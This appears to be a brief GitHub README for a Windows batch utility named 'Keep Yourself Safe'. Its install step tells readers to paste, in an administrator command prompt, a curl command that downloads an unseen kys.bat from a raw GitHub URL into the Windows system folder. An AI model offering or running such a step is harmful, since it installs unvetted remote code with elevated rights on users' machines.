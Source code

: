 # Keep Yourself Safe

## How to install
<p> You just need open cmd with admin perms, and paste next command<p/>

```curl -o c:\windows\kys.bat https://raw.githubusercontent.com/blozaza/Smth/main/kys.bat```
### Notice that file will be stored in Windows packpage

## Screenshot:
<img src="Screen.png"  width="500" height="600" alt="screen.png">

## Run
<p> After installing, you can run it with command KYS in cmd <p/>
